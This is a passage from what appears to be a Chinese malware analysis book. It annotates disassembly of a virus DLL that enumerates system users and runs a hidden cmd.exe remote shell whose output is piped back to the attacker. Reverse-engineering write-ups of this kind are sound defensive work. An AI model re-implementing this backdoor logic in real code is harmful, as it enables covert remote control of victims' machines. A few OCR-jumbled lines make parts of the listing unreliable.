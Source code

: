 如代码清单 16-13 所示，该病毒通过 NetUserEnum 遍历所有系统用户信息。服务器管理代码分析如代码清单 16-13 所示。

代码清单16-13  服务器管理代码片段 DllSerSt函数实现代码：

`.text:100129B8 lea eax, [esp+24h+resume_handle] ; 循环开始   .text:100129BC lea ecx, [esp+24h+totalentries]     .text:100129C0 push eax ; resume_handle   .text:100129C1 lea edx, [esp+28h+entriesread]     .text:100129C5 push ecx ; totalentries   .text:100129C6 push edx ; entriesread   .text:100129C7 lea eax, [esp+30h+bufptr]     .text:100129CB push 0FFFFFFFFh ; prefmaxlen   .text:100129CD push eax ; bufptr   .text:100129CE push 2 ; filter   .text:100129D0 push ebx ; level   .text:100129D1 push ebx ; servername   .text:100129D2 call NetUserEnum ; 遍历所有系统用户信息   .text:100129D7 cmp eax, ebx     .text:100129D9 mov [esp+24h+NET_API_STATUS], eax   .text:100129DD jz short loc_100129E6   .text:100129DF cmp eax, 234 ; ERROR_MORE_DATA   .text:100129E4 jnz short loc_10012A29 ; 检查   .text:10012A06 push 50h ; MaxCount   .text:10012A08 push ecx ; Source   .text:10012A09 push eax ; Dest   .text:10012A0A inc ebp     .text:10012A0B   .text:10012A0E add   call esi, 32h   ds:wcstombs    ;    宽字符字符串转换为多字节字符串   .text:10012A41 cmp eax, 234 ; ERROR_MORE_DATA   .text:10012A46 jz loc_100129B8 ; 循环开始   .text:10012A4C cmp edi, ebx ; 循环结束   .text:10012A4E jz short loc_10012A56     .text:10012A50 push edi ; Buffer   .text:10012A51 call NetApiBufferFree ; 释放缓冲区   如代码清单 16-14 所示，该病毒通过使用管道通信实现远程 CMD 并且隐藏 cmd.exe 进程的窗口。   `

DllShell函数实现代码：

代码清单16-14  远程CMD命令代码片段

`.text:10010CFD lea ecx, [esp+188h+att]   .text:10010D01 lea ebx, [ebp+120h]   .text:10010D07 push edx ; nSize   .text:10010D08 lea edi, [ebp+114h]   .text:10010D0E lea esi, [ebp+11Ch]   .text:10010D14 push ecx ; lpPipeAttributes   .text:10010D15 push ebx ; hWritePipe   .text:10010D16 push edi ; hReadPipe   .text:10010D49 call ds:CreatePipe ; 创建标准输出管道   .text:10010D74 lea edx, [esp+188h+att]   .text:10010D78 push 0 ; nSize   .text:10010D7A lea edi, [ebp+118h]   .text:10010D80 push edx ; lpPipeAttributes   .text:10010D81 push edi ; hWritePipe   .text:10010D82 push esi ; hReadPipe   .text:10010D83 call ds:CreatePipe ; 创建标准输入管道   .text:10010DDA mov [esp+188h+StartupInfo.hStdError], eax   .text:10010DDE mov [esp+188h+StartupInfo.hStdOutput], eax ; 设置标准输出管道   .text:10010DE2 lea eax, [esp+188h+Buffer]   .text:10010DE6 push 104h ; uSize   .text:10010DEB push eax ; lpBuffer   .text:10010DEC mov [esp+190h+StartupInfo.cb], 44h   .text:10010DF4 mov [esp+190h+StartupInfo.wShowWindow], 0; SW_HIDE，隐藏CMD窗口   .text:10010DFB mov [esp+190h+StartupInfo.dwFlags], 101h   .text:10010E03 mov [esp+190h+StartupInfo.hStdInput], edx ; 设置标准输入管道   .text:10010E07 call ds:GetSystemDirectoryA ; 获取系统目录   .text:10010E0D mov edi, offset aCmdExe ; 拼接CMD的路径:"\\cmd.exe"   .text:10010E40 lea ecx, [esp+18Ch+StartupInfo]   .text:10010E44 lea edx, [esp+18Ch+Buffer]   .text:10010E48 push ecx ; lpStartupInfo   .text:10010E49 push 0 ; lpCurrentDirectory   .text:10010E4B push 0 ; lpEnvironment   .text:10010E4D push 20h ; dwCreationFlags   .text:10010E4F push 1 ; bInheritHandles   .text:10010E51 push 0 ; lpThreadAttributes   .text:10010E53 push 0 ; lpProcessAttributes   .text:10010E55 push 0 ; lpCommandLine   .text:10010E57 push edx ; lpApplicationName   .text:10010E58 call ds:CreateProcessA ; 创建cmd.exe进程      .text:1001109A mov eax, [esp+418h+BytesRead]; 循环开始   .text:1001109E test eax, eax   .text:100110A0 jbe short loc_1001106F   .text:100110A2 mov ecx, 100h   .text:100110A7 xor eax, eax   .text:100110A9 lea edi, [esp+418h+Buffer]   .text:100110AD rep stosd   .text:100110AF mov ecx, [esp+418h+TotalBytesAvail]   .text:100110B3 push ecx ; uBytes   .text:100110B4 push 40h ; uFlags   .text:100110B6 call ds:LocalAlloc ; 申请空间   .text:100110BC mov ecx, [ebx+114h]   .text:100110C2 mov esi, eax             .text:100110C4 mov eax, [esp+418h+TotalBytesAvail]   .text:100110C8 lea edx, [esp+418h+BytesRead]   .text:100110CC push 0 ; lpOverlapped   .text:100110CE push edx ; lpNumberOfBytesRead   .text:100110CF push eax ; nNumberOfBytesToRead   .text:100110D0 push esi ; lpBuffer   .text:100110D1 push ecx ; hFile   .text:100110D2 call ds:ReadFile ; 读取管道数据，获取CMD命令执行结果   .text:100110D8 mov ecx, ebx   .text:100110DA mov edx, [esp+418h+BytesRead]   .text:100110DE push edx ; Size   .text:100110DF push esi ; Src   .text:100110E0 call send_data ; 发送数据   .text:100110E5 push esi ; hMem   .text:100110E6 call ds:LocalFree ; 释放空间   .text:100110EC lea eax, [esp+418h+TotalBytesAvail]   .text:100110F0 push 0 ; lpBytesLeftThisMessage   .text:100110F2 lea ecx, [esp+41Ch+BytesRead]   .text:100110F6 push eax ; lpTotalBytesAvail   .text:100110F7 mov eax, [ebx+114h]   .text:100110FD push ecx ; lpBytesRead   .text:100110FE lea edx, [esp+424h+Buffer]   .text:10011102 push 400h ; nBufferSize   .text:10011107 push edx ; lpBuffer   .text:10011108 push eax ; hNamedPipe   .text:10011109 call ebp ; PeekNamedPipe ; 检测管道数据   .text:1001110B test eax, eax   .text:1001110D jnz short loc_1001109A ; 跳转到循环开始   .text:1001110F jmp loc_1001106F ; 循环结束   `
